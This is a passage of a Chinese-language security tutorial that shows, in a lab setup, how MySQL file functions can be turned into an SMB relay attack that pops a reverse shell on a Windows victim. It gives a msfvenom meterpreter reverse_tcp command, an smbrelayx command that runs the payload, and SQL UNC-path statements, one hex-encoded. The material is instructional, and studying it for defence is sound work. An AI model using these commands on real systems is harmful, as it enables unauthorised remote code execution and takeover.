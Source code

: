 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01538d29adfdebecf5.png)



**<br>**

**SMB中继攻击**

通过使用函数如load_file、into outfile/dumpfile和load data infile，我们能够访问Windows环境下的UNC路径。我们能够在SMB中继攻击中利用这个功能，并且在目标设备中弹出一个shell。以下是SMB中继攻击的可视化演示。

[![](https://p3.ssl.qhimg.com/t013738c6924258dbc3.png)](https://p3.ssl.qhimg.com/t013738c6924258dbc3.png)

这是为此次试验做的实验室设置配置。

MySQL服务器：Windows 8: 192.168.0.100

攻击者：Kali: 192.168.0.101

受害者：Windows 7: 192.168.0.103（以管理员身份运行）

使用的工具是：

Smbrelayx

Metasploit

首先，我在Kali盒子中生成了一个反向shell，并在Metasploit上运行multi/handler模块。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=443  -f exe &gt; reverse_shell.exe
```

接着，运行smbrelayx工具以明确受害者的IP地址和生成的反向shell并等待流入的连接。

```
smbrelayx.py -h 192.168.0.103 -e ./reverse_shell.exe
```

一旦我们从MySQL服务器中执行任意语句，我们会从受害者盒子中得到反向shell。



```
select load_file('\\192.168.0.101\aa');
select load_file(0x5c5c5c5c3139322e3136382e302e3130315c5c6161);
select 'osanda' into dumpfile '\\192.168.0.101\aa';
select 'osanda' into outfile '\\192.168.0.101\aa';
load data infile '\\192.168.0.101\aa' into table database.table_name;
```

这些是来自multi/handler模块Metasploit中的选项：

[![](https://p4.ssl.qhimg.com/t0156181c9a1b299aa3.png)](https://p4.ssl.qhimg.com/t0156181c9a1b299aa3.png)

一旦MySQL服务器把一个请求发送到Kali盒子，smbrelayx就会执行SMB中继攻击并且将我们的反向shell上传并执行。

[![](https://p0.ssl.qhimg.com/t01f414d20a9725389a.png)](https://p0.ssl.qhimg.com/t01f414d20a9725389a.png)
